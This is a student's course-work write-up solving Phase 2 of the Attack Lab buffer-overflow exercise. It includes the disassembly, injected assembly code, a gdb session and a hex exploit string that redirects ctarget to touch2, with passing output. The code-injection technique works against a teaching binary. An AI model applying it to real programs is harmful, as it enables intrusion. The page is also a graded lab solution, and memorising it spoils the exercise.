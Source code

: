 ```yaml
---
category:
  - Course Work
tag:
  - Attack Lab
  - Computer Organization and Architecture
title: "Attack Lab: Phase 2"
typora-root-url: ../../../../.vuepress/public
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b6a <touch2>:
...
```

###### Write File `phase-2-inject.s`

```assembly
movl $0x3a9a6c2f, %edi
pushq $0x0000000000401b6a
retq
```

###### Run

```bash
gcc -c phase-2-inject.s
objdump --disassemble phase-2-inject.o > phase-2-inject.asm
```

###### Read File `phase-2-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	bf 2f 6c 9a 3a       	mov    $0x3a9a6c2f,%edi
   5:	68 6a 1b 40 00       	pushq  $0x401b6a
   a:	c3                   	retq
```

###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) stepi
(gdb) info registers rsp
rsp            0x55668c98       0x55668c98
```

###### Write File `phase-2.txt`

```
bf 2f 6c 9a 3a
68 6a 1b 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-2.txt > phase-2.in
./ctarget -i phase-2.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch2!: You called touch2(0x3a9a6c2f)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
